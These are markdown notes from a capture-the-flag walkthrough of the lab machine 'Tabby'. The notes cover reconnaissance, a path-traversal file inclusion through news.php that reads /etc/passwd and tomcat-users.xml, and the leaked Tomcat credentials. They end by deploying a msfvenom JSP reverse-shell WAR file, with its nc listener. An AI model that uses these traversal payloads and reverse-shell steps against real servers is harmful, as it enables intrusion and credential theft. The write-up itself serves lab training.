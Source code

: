 # tabby

```sh
## kali

sudo su -
cd projects
mkdir tabby
cd tabby
mkdir share
mkdir foothold
mkdir exfil
mkdir privesc

nv /etc/local # add: 10.10.10.194 tabby

sup tabby # nmap scans.

so tabby # scan summary and setting vars.

# 22 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
ssh tabby # denied, publickey

# 80 Apache httpd 2.4.41 ((Ubuntu))
  # browser ->
    # nothing on the quick

# 8080 Apache Tomcat
  # browser -> open all links
    # /docs -> Apache Tomcat 9 (Version 9.0.31, Feb 24 2020)
    # /examples -> are installed
    # /manager & /host-manager -> ask for password (401 gives info)
    # users are defined in /etc/tomcat9/tomcat-users.xml

dirb http://tabby/ -o dirb80.log
dirb http://tabby:8080/ -o dirb8080.log

tail -F *.log | grep --line-buffered ^==
```

```sh
## vmhost

# local port forwarding so we can browse the sites from outside kali:
ssh -N kali -L 0.0.0.0:80:tabby:80
ssh -N kali -L 0.0.0.0:8080:tabby:8080

# port 80
# wappalyzer: apache 2.4.41, ubuntu

# port 8080
# wappalyzer: apache 2.4.41, ubuntu

# no new info :/
```

```sh
## kali

# port 22
searchsploit openssh 8 # nothing useful.
# https://www.cybersecurity-help.cz/vdb/SB2020052708

# port 80
searchsploit apache 2 # no public exploit for 2.4.41.

# port 8080
searchsploit tomcat
# https://tomcat.apache.org/security-9.html
# nothing useful.
```

---

I mean the box is called `tabby` so it's probably a Tomcat exploit.

```sh
grep ^== dirb* # nothing interesting.
```
* port 8080 via browser, still nothing
* port 80 via browser:
* some links point to megahosting.htb
* try them with the server.
  * `news.php` with `file` parameter!
* let's try passing some files:
  * first the one from the page:
    * `/news.php?file=statement`
      * nice apology
    * `/news.php?file=index.html`
      * empty page
* let's switch to curl

```sh
## kali
curl -s tabby > index80.html
grep .htb index80.html # a mail address and the aforementioned news.php

curl tabby/news.php?file=statement # yep, it's still the statement.
curl tabby/news.php?file=index.html # empty.
curl tabby/news.php?file=index.php # empty.
curl tabby/news.php?file=../index.html # empty.
curl tabby/news.php?file=../index.php # jackpot! it's the root index file.
curl tabby/news.php?file=../../index.php # empty.

# let's try breaking out and fetching a file that was mentioned on tabby:8080
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/webapps/ROOT/index.html # it works!

# when we entered a wrong password, tabby:8080/manager/html mentioned conf/tomcat-users.xml
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/conf/tomcate-users.xml # empty :(

# whoops, one an errant e
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/conf/tomcat-users.xml # nope.
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/webapps/conf/tomcat-users.xml # nope.
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/webapps/ROOT/conf/tomcat-users.xml # nope.

# let's google the location for tomcat-users.xml

# $CATALINA_BASE/conf/tomcat-users.xml
# $CATALINA_BASE is /var/lib/tomcat9
# should work, but does not.

# remove ../ until we find the last that works. 4 are enough to get to the root dir.
# try something else:
cd exfil
curl tabby/news.php?file=../../../../usr/share/doc/tomcat9-common/RUNNING.txt.gz --output RUNNING.txt.gz
gunzip *.gz

# read it.
# try another path:
curl tabby/news.php?file=../../../../etc/hosts # works.

# let's look for the ubuntu tomcat package:
# https://packages.ubuntu.com/search?keywords=tomcat9
# I don't know the exact Ubuntu version, I'm assuming they are all similar:
# https://packages.ubuntu.com/focal/all/tomcat9/filelist
curl tabby/news.php?file=../../../../../etc/cron.daily/tomcat9 # works. good start.
curl tabby/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml # YES!

# let's download it:
curl tabby/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml -o tomcat-users.xml
grep password *.xml

# let's try those credentials:
# tabby:8080/manager/html # nope
  # can we find those creds too?
# tabby:8080/manager/host-manager # yes!
  # now we have access to the Tomcat Virtual Host Manager
```

Wait a minute!

```sh
## kali
# totally forgot, there's ssh running!
curl tabby/news.php?file=../../../../../etc/ssh/sshd_config > sshd_config
curl tabby/news.php?file=../../../../../etc/ssh/ssh_config > ssh_config
# private keys can't be fetched, oh well.
```

Maybe the webserver on port 80

```sh
curl tabby/news.php?file=../../../../var/www/html/index.php
# maybe we can get news.php
curl tabby/news.php?file=../../../../var/www/html/news.php > news.php # yes!
curl tabby/news.php?file=../../../../var/www/html/index.php > index.php # might as well.
curl tabby/news.php?file=../../../../lib/systemd/system/tomcat9.service > tomcat9.service # should give us the paths.

curl http://tabby/news.php?file=../../../../etc/passwd > passwd # at least we will get the usernames.
egrep -v "bin/nologin|bin/false" passwd
# we found a new user: ash
# can't manage to extract any info though.
```
---

Alright, after a couple of hours I've looked up a hint:
The idea is to upload a shell via the Tomcat manager.
(I did not know you could upload things, so I would have
not figured that out anytime soon.)

* http://tabby:8080/host-manager/html
  * click server status
  * click complete server status
    * (http://tabby:8080/manager/status/all)
    * take a look at the applications
      * let's add our own
      * as soon as we call it our payload will be executed
      * let's create a TCP reverse shell

* Tomcat uses Java JSPs. (JavaServerPages).
* WAR files: Web Applications aRchives (contains a JAR)
* JAR files: Java ARchives

The URL for uploading WAR files is http://tabby:8080/manager/text/deploy

```sh
msfvenom --list payloads > msf_payloads # long list.
grep java msf_payloads # java/jsp_shell_reverse_tcp looks good.
msfvenom -l formats # war is what we need (wait what).

# let's open a listener:
rlwrap nc -vnlp 42424 # this will be our shell.

# create the payload:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.69 LPORT=42424 -f war -o shell.war

# war files are packed folders in disguise:
mkdir shell && cd shell
jar -xvf ../shell.war
# take a look at it. the jsp file is interesting
# (around line 50)
cd ..

# you can upload files with curl. same credentials we found before.
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://tabby:8080/manager/text/deploy?path=/shell'
# -u user credentials
# -T upload file

# our new webapp should be visible in the manager now!

# visit the new app in the browser:
# http://tabby:8080/shell
# or curl it, don't forget the following /:
curl -u 'tomcat':'$3cureP4s5w0rd123!' 'http://tabby:8080/shell/'

```
